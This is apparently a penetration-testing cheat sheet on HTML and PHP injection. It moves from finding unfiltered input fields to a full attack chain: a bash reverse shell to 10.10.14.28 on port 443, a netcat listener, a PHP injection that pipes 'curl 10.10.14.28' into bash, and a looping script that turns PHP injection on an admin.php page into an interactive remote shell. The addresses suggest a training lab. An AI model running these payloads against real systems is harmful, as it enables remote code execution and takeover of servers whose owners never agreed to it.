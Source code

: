 # HTML Injection



## HTML Injection Enumeration

### **Find Input Fields**

Input fields may be found in the following examples:

* Search boxes
* Comments
* Post
* Forms

**Try inserting special characters to see if they are not filtered:**

```
< >; ' " { } ;
```

* < >; = denote elements in HTML
* ' " = denote strings on JavaScript
* {} = function declarations of JavaScript
* ; = end of a statement on JavaScript
* \<?php = PHP code
* ?> = end of PHP code

**If these characters are not removed or encoded then the website might be vulnerable to XSS:**

* URL Encoding
* HTML Encoding

**Then we might be able to code since we can use these special characters!**

Test HTML tags in input fields:

```markup
<h1>Hola</h1>
<marquee>Hola</marquee>
```

Test malicious code in other languages (e.g PHP)

```php
<?php system("whoami"); ?>
```

## Reverse Shell via PHP Injection

Create an index.html file in your webroot directory that actually executes bash code:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.28/443 0>&1
```

Set a listener on a port of your choosing:

```
nc -lvnp 443
```

Inject a malicious PHP code:

```php
<?php system("curl 10.10.14.28 | bash"); ?>
```

### Fake Shell via Continous PHP Injection

The following code enters in a while loop to execute the commands and we use **read** to parse the output:

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "Exit\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
main_url="http://10.10.10.27/admin.php"

while true; do
    echo -n "[~] " && read -r command
    echo; curl -s -G $main_url --data-urlencode "html=<?php system(\"$command\"); ?>" --cookie "adminpowa=noonecares" | grep "\/body" -A 500 | grep -v "\/body"; echo
done.
```

Things to keep in mind:

* Cookie = You don't need a cookie if you don't have to be authenticated.
* \-G = This sends a GET request and the content in the URL.
* grep = If you don't need to filter the output, then you may remove the grep commands.
